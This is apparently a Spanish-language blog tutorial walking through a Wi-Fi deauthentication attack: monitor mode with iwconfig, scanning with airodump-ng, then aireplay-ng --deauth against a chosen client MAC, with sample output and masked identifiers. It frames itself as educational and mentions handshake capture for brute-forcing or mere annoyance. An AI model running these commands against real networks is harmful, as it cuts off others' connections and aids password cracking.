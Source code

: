 ```yaml
---
layout: post
author: S3K0NDZ
title: Ataque Deauth
image: https://w7.pngwing.com/pngs/326/155/png-transparent-computer-icons-tool-screwdriver-technic-logo-screwdriver.png
description: Como realizar un ataque de desautenticación.
tipo: tecnicas
---
```

Hoy voy a describir el paso a paso de como realizar un deauther atack, estas pruebas están realizadas en un entorno controlado y se enseña con fines educativos. 

## Materiales

* Un adaptador de red wifi con posibilidad de actuar en modo monitor

## Herramientas

* iwconfig 
* airodump-ng 
* aireplay-ng

## Procedimiento

El primer paso es utilizar el comando ifconfig para ver que tenemos nuestro adaptador de red conectado correctamente, he sustituido por asteriscos cierta información sensible, esto no tiene mayor relevancia para la explicación.

```
wlxd037452a2463: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 2312
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 **********  prefixlen 64  scopeid 0x20<link>
        ether **********  txqueuelen 1000  (Ethernet)
        RX packets 10823  bytes 4687337 (4.4 MiB)
        RX errors 0  dropped 28  overruns 0  frame 0
        TX packets 2095  bytes 481408 (470.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Una vez hemos identificado nuestro adaptador procedemos a verificar en que modo está, para ello tenemos que usar el siguiente comando.

```
iwconfig (identificador de tu adaptador)
```

En mi caso: 
```
iwconfig wlxd037452a2463
```

Podemos ver como mi adaptador está en modo <b>managed</b>.
```
wlxd037452a2463  IEEE 802.11AC  ESSID:"MI SSID"
          Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency:5.18 GHz  Access Point: 
          MI MAC  
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:****-****-****-****-****-****-****-****   
          Security mode:open
          Power Management:off
          Link Quality=81/100  Signal level=-48 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

Para cambiarlo a modo <b>monitor</b> es de la siguiente manera. 

```
iwconfig (identificador de tu adaptador) mode monitor
```

En mi caso.
```
iwconfig wlxd037452a2463 mode monitor
```

Ahora si hacemos un iwcofig podemos ver como ya se encuentra en modo monitor
```
wlxd037452a2463  IEEE 802.11AC  ESSID:"MI SSID"
          Nickname:"<WIFI@REALTEK>"
          Mode:Monitor  Frequency:5.18 GHz  Access Point: 
          MI MAC
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality=77/100  Signal level=-48 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

Vale una vez hecho esto vamos levantar el interfaz, para ello hacemos lo siguiente. 

```
ifconfig (identificador de tu adaptador) up 
```
En mi caso. 
```
ifconfig wlxd037452a2463 up 
```


Ahora vamos a usar la siguiente herramienta, que se llama <b>aerodump-ng
</b>
para ello vamos a escanear todas las AP y los clientes que están conectadas a las mismas. 
```
airodump-ng wlxd037452a2463
```
Vamos a ver que nos aparece lo siguiente.
```
CH  9 ][ Elapsed: 12 s ][ 2022-08-30 02:11 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

01:01:01:01:01:01   -76        0        2    0 100   -1   WPA              <length:  0>                                                                                     
01:01:01:01:01:01  -81         1        0    0  11 1733   WPA2 CCMP   PSK  **PRUEBA_REAL**                                                                                
01:01:01:01:01:01   -76        0        0    0  48 1733   WPA2 CCMP   PSK  **Prueba**                                                                                    
01:01:01:01:01:01   -82        1        1    0  44 1170   WPA2 CCMP   PSK  **Prueba**                                                                                  
01:01:01:01:01:01   -76        1        0    0  44 1733   WPA2 CCMP   PSK  **Prueba**                                                                                     
01:01:01:01:01:01   -76        1        0    0  44 1733   WPA2 CCMP   PSK  **Prueba**                                                                               
                                                               

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

01:01:01:01:01:01    01:01:01:01:01:01   -1     6e- 0      0        Prueba                                                                                                         
01:01:01:01:01:01    01:01:01:01:01:01   -53    0 - 1      0        2         Prueba                                                                                   
                                                                               
```

Por motivos de seguridad he censurado los ssid y las mac de las redes que aparecen. 

Ahora bien, tenemos todas las redes a las cuales podemos realizar un ataque, pero ¿a que cliente queremos desautenticar? y ¿como lo hacemos?

Bien para responder a estas dos preguntas, primero tenemos que aplicar un filtro para reconocer los potenciales clientes que nos interesan. 

```
airodump-ng 
--ssid 01:01:01:01:01:01 (BSSID de las estación que queremos filtrar, la tabla superior)           
--channel 11 (Ponemos el canal en el cual opera dicha estación)
 wlxd037452a2463(Nuestro adaptador de red)
```

```
airodump-ng --essid 01:01:01:01:01:01 --channel 11 wlxd037452a2463
```
Ahora veremos como en la parte inferior detectamos todos los dipositivos conectados a dicha red.

```
 CH 11 ][ Elapsed: 36 s ][ 2022-08-30 02:28 ][ display sta only

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   01:01:01:01:01:01  -83    0 - 6      0        2                     

```                                                                                     
Para desautenticar simplemente tendremos que usar la herramienta llamada aireplay-ng
              
``` 
aireplay-ng 

--deauth (Tipo de ataque)

1000 (Número de paquetes que queremos enviar)

-e Prueba (SSID de la estación víctima)

-c 01:01:01:01:01:01 (MAC víctima)

wlxd037452a2463 (Nuestro adaptador de red en modo monitor)
              
``` 

``` 
aireplay-ng --deauth 1000 -e Prueba -c 01:01:01:01:01:01 wlxd037452a2463

``` 

Una vez le damos a enter, se envia le número de paquetes de deauth que hemos establecido y mientras este proceso esté ejecutándose, el equipo víctima no se podrá conectar a la red, esta técnica sirve entre otras cosas por ejemplo para capturar el handshake para posteriormente romperlo con fuerza bruta o simplemente para molestar. 

Gracias por leer! 


